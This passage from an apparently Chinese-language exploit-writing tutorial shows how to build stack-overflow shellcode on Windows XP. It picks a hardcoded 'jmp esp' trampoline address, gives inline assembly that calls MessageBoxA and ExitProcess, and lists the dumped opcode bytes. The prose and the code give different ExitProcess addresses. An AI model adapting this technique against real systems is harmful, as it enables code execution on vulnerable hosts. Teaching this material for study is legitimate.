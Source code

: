 ```
- windowsxp
- vc++ 6
- 默认编译选项
- debug版本exe

运行我们自己编写程序搜索跳转地址得到的结果和 Olly Dbg 插件搜到的结果基本相同。

> 跳转指令的地址将直接关系到 exploit 的通用性。事实上，kernel32.dll 与 user32.dll 在不同的操作系统版本和补丁版本中也是有所差异的。最佳的跳转地址位于那些“千年不变”且被几乎所有进程都加载的模块中。

这里不妨采用位于内存 0x7e490724 处的跳转地址 jmp esp 作为定位 shellcode 的“跳板”。 在制exploit 的时候，还应当修复上一讲中 shellcode 无法正常退出的缺陷。为此，我们在调用 ```MessageBoxA``` 之后，通过调用 ```exit``` 函数让程序干净利落地退出。 

这里仍然用 dependency walker 获得这个函数的入口地址。如图 3.2.6 所示， ExitProcess 是 kernel32.dll 的导出函数，故首先查出 kernel32.dll 的加载基址 0x7C800000，然后加上函数的偏移地址0x0001CDDA，得到函数ExitProcess入口地址为0x7c81CDDA。

写出的 shellcode 的源代码如下所示：
```c
#include <windows.h>     
int main() 
{ 
	HINSTANCE LibHandle; 
	char dllbuf[11] = "user32.dll"; 
	LibHandle = LoadLibrary(dllbuf); 
	_asm{ 
		sub  esp,0x440
		xor  ebx,ebx
		push ebx		// cut string 
		push 0x74736577 
		push 0x6C696166	//push failwest 
		mov  eax,esp		//load address of failwest 
		push ebx 
		push eax 
		push eax 
		push ebx 
		mov  eax,0x7E4507EA // MessageboxA entrypoint.
		call eax			// call MessageboxA 
		push ebx 
		mov eax,0x7C81CAFA  // ExitProcess entrypoint
		call eax //call ExitProcess exit(0) 
	} 
} 

```

为了提取出汇编代码对应的机器码，我们将上述代码用 VC6.0 编译运行通过后，再用OllyDbg 加载可执行文件，选中所需的代码后可直接将其 dump 到文件中，内容如下：

```
81 EC 40 04 00 00 33 DB 53 68 77 65 73 74 68 66
61 69 6C 8B C4 53 50 50 53 B8 EA 07 45 7E FF D0
53 B8 FA CA 81 7C FF D0
```
